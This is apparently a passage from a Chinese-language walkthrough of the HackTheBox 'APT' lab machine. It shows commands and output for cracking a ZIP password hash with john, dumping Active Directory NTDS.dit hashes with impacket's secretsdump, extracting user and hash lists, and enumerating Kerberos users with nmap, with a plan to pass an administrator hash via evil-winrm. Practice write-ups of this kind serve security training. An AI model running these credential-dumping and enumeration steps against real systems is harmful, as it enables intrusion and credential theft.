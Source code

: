 ![](https://i.328888.xyz/2023/04/02/iHj6Mp.png)

生成 hash 值，进而对 hash 值进行破解，才能破解到密码

指定一本字典，之后破解 hash

```shell
~/Hackthebox-APT 
> john hash4zip --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iloveyousomuch   (backup.zip)
1g 0:00:00:00 DONE (2023-04-02 13:24) 50.00g/s 819200p/s 819200c/s 819200C/s 123456..cocoliso
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

# 结合 SYSTEM 提取 ntds 数据

依然使用 impacket 包中脚本 secretdump.py 转储用户数据

```shell
 python3 /tools/impacket/examples/secretsdump.py LOCAL -system registry/SYSTEM -ntds Active\ Directory/ntds.dit > user_hash_raw
```

**拿到所有账号的密码 hash**

**在 evil-winrm 测试 administrator hash 是否有效，如果能登录那就可以直接 getshell** 

![](https://i.328888.xyz/2023/04/02/iH8wPL.png)

## 提取 user_list user_hash 

`cat user_hash_raw| grep ':::' | awk -F ':' '{print $1}' > user_list`

`cat user_hash_raw| grep ':::' | awk -F ':' '{print $4}' > hash_list`

# 通过Kerberos pre-auth 进行用户枚举

>used `kerbrute` to check for the valid users, and we have 3 valid users

1. nmap script

```shell
~/Hackthebox-APT 
> sudo nmap -6 -p88  --script krb5-enum-users --script-args krb5-enum-users.realm='htb.local',userdb=user_list htb.local
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-02 13:52 CST
Nmap scan report for htb.local (dead:beef::b885:d62a:d679:573f)
Host is up (0.27s latency).

PORT   STATE SERVICE
88/tcp open  kerberos-sec
| krb5-enum-users:
| Discovered Kerberos principals
|     Administrator@htb.local
|     APT$@htb.local
|_    henry.vinson@htb.local

Nmap done: 1 IP address (1 host up) scanned in 65.62 seconds
```
